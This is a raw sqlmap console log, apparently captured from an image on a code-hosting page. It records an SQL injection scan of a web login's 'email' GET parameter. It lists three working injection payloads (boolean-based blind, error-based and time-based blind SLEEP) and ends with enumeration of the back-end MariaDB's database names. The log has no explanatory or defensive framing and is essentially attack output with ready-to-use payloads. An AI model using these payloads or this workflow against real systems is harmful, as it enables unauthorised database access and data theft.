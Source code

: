 ```shell
[18:40:57] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:41:17] [INFO] GET parameter 'email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:41:17] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:41:17] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:41:17] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:41:17] [INFO] target URL appears to have 4 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] y
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[18:41:28] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[18:41:29] [INFO] target URL appears to be UNION injectable with 4 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] yt
[18:41:35] [WARNING] if UNION based SQL injection is not detected, please consider usage of option '--union-char' (e.g. '--union-char=1') and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
[18:41:35] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[18:41:35] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
[18:41:35] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[18:41:35] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[18:41:36] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[18:41:36] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[18:41:36] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[18:41:36] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[18:41:36] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[18:41:37] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[18:41:37] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[18:41:45] [INFO] testing 'MySQL UNION query (98) - 21 to 40 columns'
[18:41:46] [INFO] testing 'MySQL UNION query (98) - 41 to 60 columns'
[18:41:46] [INFO] testing 'MySQL UNION query (98) - 61 to 80 columns'
[18:41:54] [INFO] testing 'MySQL UNION query (98) - 81 to 100 columns'
GET parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 857 HTTP(s) requests:
---
Parameter: email (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=test' AND 4324=(SELECT (CASE WHEN (4324=4324) THEN 4324 ELSE (SELECT 7054 UNION SELECT 8357) END))-- UyNy&password=test

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=test' OR (SELECT 8539 FROM(SELECT COUNT(*),CONCAT(0x716b717171,(SELECT (ELT(8539=8539,1))),0x717a707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JTnW&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test' AND (SELECT 7937 FROM (SELECT(SLEEP(5)))Judt)-- YLPd&password=test
---
[18:42:18] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:42:18] [INFO] fetching database names
[18:42:18] [INFO] retrieved: 'information_schema'
[18:42:18] [INFO] retrieved: 'ai'
[18:42:18] [INFO] retrieved: 'mysql'
```